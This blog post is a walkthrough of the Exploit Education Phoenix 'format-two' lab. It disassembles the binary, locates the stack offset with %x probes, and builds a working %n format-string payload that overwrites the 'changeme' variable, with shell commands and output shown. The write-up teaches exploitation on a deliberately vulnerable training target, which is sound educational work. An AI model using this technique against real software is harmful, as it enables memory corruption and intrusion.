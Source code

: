 ```yaml
---
layout: post
title: Format Two Writeup - Exploit Education Lab Exercise
categories: [security, binary-exploit, reverse-engineering, friday-gems]
tags: [security, binary-exploitation, friday-gems]
description: A comprehensive writeup that helps to understand format-two exercise - format string vulnerability with learning resources.
comments: true
---
```


## Previous Writeup: 

1. [Stack Zero Writeup - Exploit Education Lab Exercise](https://shivasurya.me/security/binary-exploit/reverse-engineering/friday-gems/2023/01/12/exploit-education-stack-zero-exercise-writeup.html)
2. [Stack One Writeup - Exploit Education Lab Exercise](https://shivasurya.me/security/binary-exploit/reverse-engineering/friday-gems/2023/01/20/exploit-education-stack-one-exercise-writeup.html)
3. [Stack Two Writeup - Exploit Education Lab Exercise](https://shivasurya.me/security/binary-exploit/reverse-engineering/friday-gems/2023/01/26/exploit-education-stack-two-exercise-writeup.html)
4. [Stack Three Writeup - Exploit Education Lab Exercise](https://shivasurya.me/security/binary-exploit/reverse-engineering/friday-gems/2023/01/27/exploit-education-stack-three-exercise-writeup.html)
5. [Stack Four Writeup - Exploit Education Lab Exercise](https://shivasurya.me/security/binary-exploit/reverse-engineering/friday-gems/2023/01/28/exploit-education-stack-four-exercise-writeup.html)
6. [Stack Five Writeup - Exploit Education Lab Exercise](https://shivasurya.me/security/binary-exploit/reverse-engineering/friday-gems/2023/02/04/exploit-education-stack-five-exercise-writeup.html)
7. [Stack Six Writeup - Exploit Education Lab Exercise](https://shivasurya.me/security/binary-exploit/reverse-engineering/friday-gems/2023/02/26/exploit-education-stack-six-exercise-writeup.html)
8. [Format Zero Writeup - Exploit Education Lab Exercise](https://shivasurya.me/security/binary-exploit/reverse-engineering/friday-gems/2023/03/10/exploit-education-format-zero-exercise-writeup.html)
9. [Format One Writeup - Exploit Education Lab Exercise](https://shivasurya.me/security/binary-exploit/reverse-engineering/friday-gems/2023/03/10/exploit-education-format-one-exercise-writeup.html)

If you haven't done setting-up your lab, feel free to check out my previous article on [Exploit.education lab setup](https://shivasurya.me/security/binary-exploit/reverse-engineering/friday-gems/2023/01/06/exploit-education-lab-setup.html)

## Quick Overview

Similar to [Format One Writeup](https://shivasurya.me/security/binary-exploit/reverse-engineering/friday-gems/2023/03/10/exploit-education-format-one-exercise-writeup.html), Format Two exercise motives are smashing the stack, overwrite arbitrary memory address or variable. However, this Format Two challenge revolves around [`Format String Vulnerability`](https://ctf101.org/binary-exploitation/what-is-a-format-string-vulnerability/) and quit challenging when exploiting in 64-bit architecture binary.

## Disassemble

Disassembling the code will get you overall idea behind the format-two code, One can use `gdb ./format-two` to start debugging it in runtime.

1. `gdb ./format-two`
2. Type `disassemble main` to get the disassembled code (assembly)

```assembly
   0x0804852c <+0>:     lea    ecx,[esp+0x4]
   0x08048530 <+4>:     and    esp,0xfffffff0
   0x08048533 <+7>:     push   DWORD PTR [ecx-0x4]
   0x08048536 <+10>:    push   ebp
   0x08048537 <+11>:    mov    ebp,esp
   0x08048539 <+13>:    push   ebx
   0x0804853a <+14>:    push   ecx
   0x0804853b <+15>:    sub    esp,0x100
   0x08048541 <+21>:    mov    ebx,ecx
   0x08048543 <+23>:    sub    esp,0xc
   0x08048546 <+26>:    push   0x8048620
   0x0804854b <+31>:    call   0x8048330 <puts@plt>
   0x08048550 <+36>:    add    esp,0x10
   0x08048553 <+39>:    cmp    DWORD PTR [ebx],0x1
   0x08048556 <+42>:    jle    0x80485a3 <main+119>
   0x08048558 <+44>:    sub    esp,0x4
   0x0804855b <+47>:    push   0x100
   0x08048560 <+52>:    push   0x0
   0x08048562 <+54>:    lea    eax,[ebp-0x108]
   0x08048568 <+60>:    push   eax
   0x08048569 <+61>:    call   0x8048350 <memset@plt>
   0x0804856e <+66>:    add    esp,0x10
   0x08048571 <+69>:    mov    eax,DWORD PTR [ebx+0x4]
   0x08048574 <+72>:    add    eax,0x4
   0x08048577 <+75>:    mov    eax,DWORD PTR [eax]
   0x08048579 <+77>:    sub    esp,0x4
   0x0804857c <+80>:    push   0x100
   0x08048581 <+85>:    push   eax
   0x08048582 <+86>:    lea    eax,[ebp-0x108]
   0x08048588 <+92>:    push   eax
   0x08048589 <+93>:    call   0x8048340 <strncpy@plt>
   0x0804858e <+98>:    add    esp,0x10
   0x08048591 <+101>:   sub    esp,0xc
   0x08048594 <+104>:   lea    eax,[ebp-0x108]
   0x0804859a <+110>:   push   eax
   0x0804859b <+111>:   call   0x8048515 <bounce>
   0x080485a0 <+116>:   add    esp,0x10
   0x080485a3 <+119>:   mov    eax,ds:0x8049868
   0x080485a8 <+124>:   test   eax,eax
   0x080485aa <+126>:   je     0x80485be <main+146>
   0x080485ac <+128>:   sub    esp,0xc
   0x080485af <+131>:   push   0x804866c
   0x080485b4 <+136>:   call   0x8048330 <puts@plt>
   0x080485b9 <+141>:   add    esp,0x10
   0x080485bc <+144>:   jmp    0x80485ce <main+162>
   0x080485be <+146>:   sub    esp,0xc
   0x080485c1 <+149>:   push   0x80486ab
   0x080485c6 <+154>:   call   0x8048330 <puts@plt>
   0x080485cb <+159>:   add    esp,0x10
   0x080485ce <+162>:   sub    esp,0xc
   0x080485d1 <+165>:   push   0x0
   0x080485d3 <+167>:   call   0x8048360 <exit@plt>
```

Before taking a look at the code, if you disassembled the format-two using gdb to view the assembly instruction, you may notice the puts, fgets, sprintf function calls with parameters. So basically when you hit `r` in gdb without breakpoint,

1. Greet with `Welcome to phoenix/format-two, brought to you by https://exploit.education` message via Puts (aka printf) method
2. If the program receives an argument from the command line (i.e., argc is greater than 1), it initializes a character array "buf" with size 256 and sets all its values to zero using "memset" function.
3. It then copies the first argument passed (i.e., argv[1]) into the "buf" array using "strncpy" function. If the length of the argument exceeds the size of the buffer (256), it will be truncated.
4. The program then calls the "bounce" function with the "buf" array as an argument.
5. If the "changeme" variable is not zero, it prints "Well done, the 'changeme' variable has been changed correctly!" to the standard output.
6. If the "changeme" variable is zero, it prints "Better luck next time!" to the standard output.
7. The program exits with status code 0.

## Memory Allocation - Exploit Strategy

 If you take closer look at the memory allocation, `changeme` variable it's placed on the stack before `buffer` char array. There is no way you could overflow buffer overflow variable and overwrite `changeme` variable. However, introducing `%n` format modifier string can perform this magic by overwriting the address using `format string vulnerability`. 

 Our first step is to print "AAAA" temporarily and find the padding where it gets stored in the stack memory. We can start our exploration with couple of %x which helps in printing the address of the stack,
 
```shell
user@phoenix-amd64:/opt/phoenix/i486$ /opt/phoenix/i486/format-two $'AAAA%x.%x.\n'
Welcome to phoenix/format-two, brought to you by https://exploit.education
AAAAffffd8ca.100.
Better luck next time!
```
Our experiment continues untill we find `AAAA` or 41414141 in the stack and eventually we come to know that it occurs at the 12th padding,

```shell
user@phoenix-amd64:/opt/phoenix/i486$ /opt/phoenix/i486/format-two $'AAAA%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x\n'
Welcome to phoenix/format-two, brought to you by https://exploit.education
AAAAffffd8a7.100.0.f7f84b67.ffffd700.ffffd6e8.80485a0.ffffd5e0.ffffd8a7.100.3e8.41414141.252e7825.78252e78
Better luck next time!
```

Now that we found the padding, it's time to find the exact memory address of `changeme` variable. For 64-bit binary `format-two` it should be `0x600af0` and 32-bit binary should be `0x08049868`. While performing the exploit, I personally found 64-bit arch challenging due to few reasons discussed in the next section.

So, let's come up with a payload for 32-bit arch format-two binary first,

```shell
$'\x08\x04\x98\x68%x %x %x %x %x %x %x %x %x %x %x %n \n'
```

However, if you take a closer look, most AT&T and Intel system uses [little endian system](https://en.wikipedia.org/wiki/Endianness). So, we might need to rewrite the address in reverse order.

```shell
$'\x68\x98\x04\x08%x %x %x %x %x %x %x %x %x %x %x %n \n'
```

## Challenge faced while exploiting 64-bit binary

As mentioned above while going through memory address of `changeme` variable in the stack of 64-bit binary should be `0x600af0` and it contains unreasonable characters 😥 - `\x00` and  `\0a` null character & new line terminator which is interpreted by the `strncpy` function and completely terminates the argument while copying to the buffer.

However, there might be better strategy to overcome this issue by altering environment variables that may push the address or placing the address to the end of the string in payload.

## Exploit

Now, our strategy should be,

1. Input `format string` as `\x68\x98\x04\x08%x %x %x %x %x %x %x %x %x %x %x %n \n`
2. Now, `printf` overwrites the `changeme` using random address from stack.

```shell
user@phoenix-amd64:/opt/phoenix/i486$ /opt/phoenix/i486/format-two $'\x68\x98\x04\x08%x %x %x %x %x %x %x %x %x %x %x %n \n'
Welcome to phoenix/format-two, brought to you by https://exploit.education
h�ffffd8ac 100 0 f7f84b67 ffffd700 ffffd6e8 80485a0 ffffd5e0 ffffd8ac 100 3e8
Well done, the 'changeme' variable has been changed correctly!
```

There you go! 🎉 You've officially `pwned` and you may eventually gain code execution in upcoming exercises 🪲

![buffer-overflow-pride](/assets/media/elementary-sherlock.jpg)

## Source and Reference:

1. Format Two Exercise: [Exploit Education](https://exploit.education/phoenix/format-two/)


## Closing Note:

I hope this post is helpful for vulnerability researcher 🔍 & code reviewers, For bugs,hugs & discussion, DM in [Twitter](https://twitter.com/sshivasurya). Opinions are my own and not the views of my employer.
